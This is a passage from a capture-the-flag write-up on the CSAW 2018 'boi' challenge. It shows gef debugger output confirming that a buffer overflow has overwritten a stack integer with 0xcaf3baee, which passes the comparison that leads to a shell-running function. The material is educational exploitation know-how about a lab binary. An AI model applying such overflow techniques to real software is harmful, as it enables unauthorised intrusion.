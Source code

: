 ```bash
```

Here we can see that we have overwritten the integer with the value `0xcaf3baee`. When we continue onto the `cmp` instruction, we can see that we will pass the check:

```bash
gef➤  b *0x4006a8
Breakpoint 2 at 0x4006a8
gef➤  c
Continuing.
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0xcaf3baee
$rbx   : 0x0
$rcx   : 0x00007ffff7af4081  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x18
$rsp   : 0x00007fffffffde70  →  0x00007fffffffdf98  →  0x00007fffffffe2d9  →  "/Hackery/pod/modules/bof_variable/csaw18_boi/boi"
$rbp   : 0x00007fffffffdeb0  →  0x00000000004006e0  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffde80  →  0x3030303030303030 ("00000000"?)
$rdi   : 0x0
$rip   : 0x00000000004006a8  →  <main+103> cmp eax, 0xcaf3baee
$r8    : 0x0
$r9    : 0x0
$r10   : 0x3
$r11   : 0x246
$r12   : 0x0000000000400530  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf90  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde70│+0x0000: 0x00007fffffffdf98  →  0x00007fffffffe2d9  →  "/Hackery/pod/modules/bof_variable/csaw18_boi/boi"     ← $rsp
0x00007fffffffde78│+0x0008: 0x000000010040072d
0x00007fffffffde80│+0x0010: 0x3030303030303030     ← $rsi
0x00007fffffffde88│+0x0018: 0x3030303030303030
0x00007fffffffde90│+0x0020: 0xcaf3baee30303030
0x00007fffffffde98│+0x0028: 0x0000000000000000
0x00007fffffffdea0│+0x0030: 0x00007fffffffdf90  →  0x0000000000000001
0x00007fffffffdea8│+0x0038: 0x8c0a95a9bb51c400
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40069b <main+90>        mov    edi, 0x0
     0x4006a0 <main+95>        call   0x400500 <read@plt>
     0x4006a5 <main+100>       mov    eax, DWORD PTR [rbp-0x1c]
 →   0x4006a8 <main+103>       cmp    eax, 0xcaf3baee
     0x4006ad <main+108>       jne    0x4006bb <main+122>
     0x4006af <main+110>       mov    edi, 0x40077c
     0x4006b4 <main+115>       call   0x400626 <run_cmd>
     0x4006b9 <main+120>       jmp    0x4006c5 <main+132>
     0x4006bb <main+122>       mov    edi, 0x400786
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a8 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 2, 0x00000000004006a8 in main ()
gef➤  p $eax
$1 = 0xcaf3baee
```
